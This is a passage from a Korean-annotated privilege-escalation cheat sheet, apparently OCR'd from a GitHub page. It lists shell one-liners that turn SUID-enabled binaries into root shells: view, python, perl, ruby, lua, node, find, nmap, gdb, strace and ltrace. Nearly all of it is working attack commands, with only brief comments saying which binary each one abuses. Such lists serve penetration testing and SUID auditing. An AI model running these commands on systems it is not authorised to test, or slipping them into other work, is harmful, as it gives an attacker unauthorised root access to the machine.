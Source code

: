 ```bash
/usr/bin/view -c ':!/bin/sh'
```

### 🐍 스크립팅 언어

```bash
# python이 SUID인 경우
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# 또는
/usr/bin/python -c 'import pty; pty.spawn("/bin/sh")'

# python3이 SUID인 경우
/usr/bin/python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

# perl이 SUID인 경우
/usr/bin/perl -e 'exec "/bin/sh";'

# ruby가 SUID인 경우
/usr/bin/ruby -e 'exec "/bin/sh"'

# lua가 SUID인 경우
/usr/bin/lua -e 'os.execute("/bin/sh")'

# node가 SUID인 경우
/usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

### 🔍 시스템 도구

```bash
# find가 SUID인 경우 (가장 흔함)
/usr/bin/find . -exec /bin/sh -p \; -quit
# 또는
/usr/bin/find . -type f -exec /bin/sh -p \; -quit

# nmap이 SUID인 경우 (구버전)
echo "os.execute('/bin/sh')" > /tmp/shell.nse
/usr/bin/nmap --script=/tmp/shell.nse
# 또는 인터랙티브 모드 (nmap 2.02-5.21)
/usr/bin/nmap --interactive
nmap> !sh

# gdb가 SUID인 경우
/usr/bin/gdb -nx -ex '!sh' -ex quit
# 또는
/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

# strace가 SUID인 경우
/usr/bin/strace -o /dev/null /bin/sh -p

# ltrace가 SUID인 경우
/usr/bin/ltrace -b -L -- /bin/sh -p
```
